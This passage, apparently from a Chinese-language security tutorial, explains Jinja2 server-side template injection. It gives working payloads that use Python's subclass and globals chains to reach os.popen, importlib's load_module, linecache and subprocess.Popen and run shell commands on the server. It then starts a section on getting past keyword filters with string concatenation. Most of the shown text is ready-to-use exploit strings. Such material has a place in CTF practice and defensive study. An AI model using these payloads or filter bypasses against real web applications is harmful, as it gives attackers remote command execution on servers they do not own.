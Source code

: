一般有一大堆, 随便挑一个类构造payload执行命令即可：

```python
# os
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}

# popen
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```

5. importlib 类导入后执行任意命令:

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'> `类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。

> 查找脚本和前文差不多;

payload:

```python
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```

6. 寻找 `linecache()` 函数执行命令:

`linecache()` 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 `linecache()` 函数去执行命令。

典型 payload:

```python
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

7. 寻找 `subprocess.Popen` 类执行命令
从 python2.4 版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system()`,`os.popen()` 等函数。

> 要找这个类, 需要遍历 `().__class__.__bases__[0].__subclasses__()["+str(i)+"]`;

典型 payload:

```python
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
```

### Bypass 总结

#### 绕过常规关键字

##### 字符串拼接

对关键字的过滤可以用字符串拼接来绕过, 例如:

